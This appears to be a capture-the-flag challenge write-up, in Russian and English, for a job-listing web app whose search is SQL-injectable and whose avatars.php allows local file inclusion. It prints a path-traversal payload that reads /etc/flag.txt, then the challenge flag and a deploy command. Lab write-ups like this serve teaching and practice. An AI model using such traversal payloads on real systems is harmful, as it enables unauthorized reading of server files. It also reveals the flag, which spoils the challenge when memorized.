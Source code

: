 ```
/avatars.php?avatar=../../../../../etc/flag.txt&return_image=true
```

Чтобы извлечь данные с помощью LFI, необходимо передать параметр return_image, который не очевиден, однако о его наличии можно догадаться при внимательном изучении кода страницы. Это добавляет уровень сложности для злоумышленника.
### Разбор на английском
The main page features a search bar, where the search logic is vulnerable to SQL injection. This vulnerability can be discovered with just a few clicks, although there is currently no information in the database.

How to Identify the Vulnerability:

By examining how the profiles are displayed, you can notice the following HTML code:

```
<div class="card-body">
    <h5 class="card-title">
        David Brown
    </h5>
    
    <p class="card-text">
        Job Description: DevOps Engineer - Collaborate with development and operations teams to implement CI/CD pipelines, automate processes, and improve system reliability.
    </p>

    <img src="/avatars.php?avatar=4.png&return_image=true" style="width:200px; height:200px;">
    
    <p class="card-text">
        Salary waiting: 787 $
    </p>
    
</div>
```
A key component is the avatars.php script, which is responsible for rendering avatars from the announcements. Interestingly, it is vulnerable to Local File Inclusion (LFI) through the URI:
```
/avatars.php?avatar=../../../../../etc/flag.txt&return_image=true
```

To extract data using LFI, it is necessary to pass the parameter return_image, which is not obvious. However, its presence can be inferred by closely examining the page code, adding a level of complexity for the attacker.

### Flag
```
tqlCTF{y0u_must_f1nd_4ll_vulns_f0r_3v3ry_4ppl1c4t10n}
```

### Развертывание

```
docker-compose up
```
